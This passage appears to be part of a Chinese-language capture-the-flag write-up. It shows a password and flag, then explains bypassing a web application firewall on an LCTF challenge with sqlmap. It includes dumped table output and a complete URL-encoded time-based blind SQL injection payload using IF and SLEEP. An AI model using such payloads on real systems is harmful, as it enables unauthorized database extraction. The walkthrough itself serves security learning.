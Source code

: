 ```
```

得到密码
5487

```
flag is here: LCTF{Th1nks_@f0r_#your_%supp0rt}
```

##  我控几不主我及几啦  ##

说实话，开始翻了翻感觉waf太绝了....什么都有过滤，简直没法注，看到那么多人都做出来了，目测是sqlmap，跑一跑还真的注到了

```
Database: xdctfweb150
Table: articles
[4 columns]
+---------+-------------+
| Column  | Type    	|
+---------+-------------+
| auther   | varchar(20) |
| content | text    	|
| id  	   | int(2)  	|
| title        | varchar(50) |
+---------+-------------+

Database: xdctfweb150
Table: where
[1 column]
+--------+-------------+
| Column | Type    	|
+--------+-------------+
| secret | varchar(80) |
+--------+-------------+
Database: xdctfweb150
Table: where
[1 entry]
+--------------------------------+
| secret                     	|
+--------------------------------+
| LCTF{H0w_D0_You_Bypass_My_w4f} |
+--------------------------------+

```

不知道做出来的那么多人有多少是知道怎么回事的。

事实上，那个被waf拦截的返回是在查询之后的，所以即便他waf拦截了返回，我们仍然可以用时间盲注来跑数据，sqlmap跑一会儿就出来了


payload:
```
http://web.l-ctf.com:6699/LCTF150/?id=3%20AND%202362%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28table_name%20AS%20CHAR%29%2C0x20%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%3D0x7864637466776562313530%20LIMIT%200%2C1%29%2C3%2C1%29%29%3E54%29%2CSLEEP%283%29%2C2362%29
```
